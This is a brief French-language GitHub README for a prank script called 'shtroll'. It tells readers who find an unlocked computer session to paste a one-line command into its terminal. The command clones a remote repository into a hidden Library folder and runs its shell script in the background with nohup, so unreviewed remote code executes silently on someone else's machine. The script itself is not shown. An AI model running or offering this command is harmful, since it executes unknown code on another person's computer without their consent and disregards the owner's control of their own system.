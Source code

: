# shtroll
<h1>Troll gentil</h1>
<p>
Ce script est destiné a un usage de type trollesque.                    
Une session mal verrouillée ? Entrez cette ligne dans le terminal :</p> 
<code>git clone https://github.com/gedemais/shtroll ~/Library/truc && nohup sh ~/Library/truc/script.sh & </code>
